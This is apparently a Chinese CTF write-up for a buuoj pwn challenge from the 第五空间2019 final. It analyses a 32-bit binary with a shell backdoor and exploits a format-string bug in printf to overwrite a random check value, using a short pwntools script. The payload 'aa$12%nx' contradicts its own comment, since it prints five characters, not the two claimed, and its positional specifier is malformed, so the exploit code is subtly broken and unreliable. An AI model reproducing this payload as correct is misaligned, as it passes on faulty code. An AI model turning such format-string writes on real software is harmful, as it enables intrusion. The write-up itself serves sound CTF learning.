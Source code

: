 ```yaml
---
title: buuoj - 第五空间2019 决赛
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


From buuoj.

## 文件分析

下载`pwn`，NX on, PIE on, RELRO partial  
ghidra分析为32位程序

## 解题思路

找到main函数后，发现输入username和passwd，并且存在后门：当passwd==randint时，打开sh，其中randint从文件读入为随机数  
由于读入的username和passwd长度等于其数组长度，无法考虑 **栈溢出** ，转而考虑对`atoi()`的利用

> Day 2

由于username在函数`printf`中，因此应当考虑格式化字符串漏洞将指定数值注入`randint`

## EXPLOIT

经过gdb调试可知，变量`username`所在地址比printf第一个参数的地址高0x28，即10个DWORD  
构造以下exp：

```python
from pwn import *
sh = process('pwn5')

# 静态变量randint的地址为0x0804c044
sh.sendline(b'aa$12%nx' + p32(0x0804c044))
# arg10: 'aa$1', arg11: '2%nx', arg12: 0x0804c044
#即将2（成功打印aa 2个字符）写入randint中

sh.sendline(b'2')
sh.interactive()
#输入cat flag取得flag

sh.close()
```
Done.
